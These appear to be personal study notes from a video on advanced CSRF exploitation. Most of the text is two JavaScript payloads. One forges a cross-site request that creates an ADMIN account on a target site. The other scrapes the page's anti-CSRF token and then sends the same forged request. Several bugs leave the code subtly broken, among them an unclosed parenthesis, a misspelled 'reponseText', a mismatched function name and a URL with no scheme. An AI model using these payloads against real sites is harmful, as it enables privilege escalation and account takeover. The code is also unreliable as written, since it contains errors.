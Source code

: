 

Some real-world implementations of anti-CSRF appear to use a known Ajax request to get the token.

> If u could **iframe** that particular functionality, you could narrow down a valid token by leveraging JavaScript and given that each char has a different size.






## Video's Notes

### Advanced CSRF Exploitation - parte 1

This is a nice shopping site.
```js
<script type="text/javascript">

var url = "http://targeturl.site/add_user.php";
var params = "name=Talent&surname=John&email=talent%40site.com&role=ADMIN&submit=";
# u can grab this param via BURP

var CSRF=new XMLHttpRequest();
CSRF.open("POST",url, true);
CSRF.withCredentials = "true";
CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// u can grab the content-type via BURP
CSRF.send(params);
</script>
```

#### bypass token
```js
<script type="text/javascript">

function addUser(token)
{
  var url = "http://targeturl.site/add_user.php";
  var params = "name=Talent&surname=John&email=talent%40site.com&role=ADMIN&submit=&CSRFToken=" + token;

  var CSRF=new XMLHttpRequest();
  CSRF.open("POST",url, true);
  CSRF.withCredentials = "true";
  CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  CSRF.send(params);
}

// extract the token
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function(){
  if(XHR.readyState == 4{
    var htmlSource = XHR.reponseText; // the source of users

    // extract the token
    var parser = new DOMParser().parseFromString(htmlSource, "text/html");
    var token = parser.getElementById("CSRFToken").value;
    addUSer(token);
  }

}

XHR.open('GET', 'targeturl.site',true);
XHR.send();

```